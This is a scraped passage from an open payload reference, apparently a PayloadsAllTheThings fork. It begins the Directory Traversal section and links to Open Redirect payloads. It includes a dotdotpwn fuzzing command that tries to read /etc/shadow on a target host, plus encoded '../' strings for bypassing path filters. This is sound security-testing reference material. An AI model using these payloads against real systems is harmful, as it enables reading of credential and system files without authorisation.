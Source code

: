 **More payloads and techniques:** [PayloadsAllTheThings - Open Redirect](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Open%20Redirect)

https://github.com/Anvesh464/PayloadsAllTheThings/blob/master/Open%20Redirect/README.md 
---
# Directory Traversal

* [Methodology](#methodology)
    * [URL Encoding](#url-encoding)
    * [Double URL Encoding](#double-url-encoding)
    * [Unicode Encoding](#unicode-encoding)
    * [Overlong UTF-8 Unicode Encoding](#overlong-utf-8-unicode-encoding)
    * [Mangled Path](#mangled-path)
    * [NULL Bytes](#null-bytes)
    * [Reverse Proxy URL Implementation](#reverse-proxy-url-implementation)
* [Exploit](#exploit)
    * [UNC Share](#unc-share)
    * [ASPNET Cookieless](#asp-net-cookieless)
    * [IIS Short Name](#iis-short-name)
    * [Java URL Protocol](#java-url-protocol)
* [Path Traversal](#path-traversal)
    * [Linux Files](#linux-files)
    * [Windows Files](#windows-files)

## Tools

* [wireghoul/dotdotpwn](https://github.com/wireghoul/dotdotpwn) - The Directory Traversal Fuzzer

    ```powershell
    perl dotdotpwn.pl -h 10.10.10.10 -m ftp -t 300 -f /etc/shadow -s -q -b
    ```
## Methodology

We can use the `..` characters to access the parent directory, the following strings are several encoding that can help you bypass a poorly implemented filter.

```powershell
../
..\
..\/
%2e%2e%2f
%252e%252e%252f
%c0%ae%c0%ae%c0%af
%uff0e%uff0e%u2215
%uff0e%uff0e%u2216
```

### URL Encoding

| Character | Encoded |
| --- | -------- |
| `.` | `%2e` |
| `/` | `%2f` |
| `\` | `%5c` |
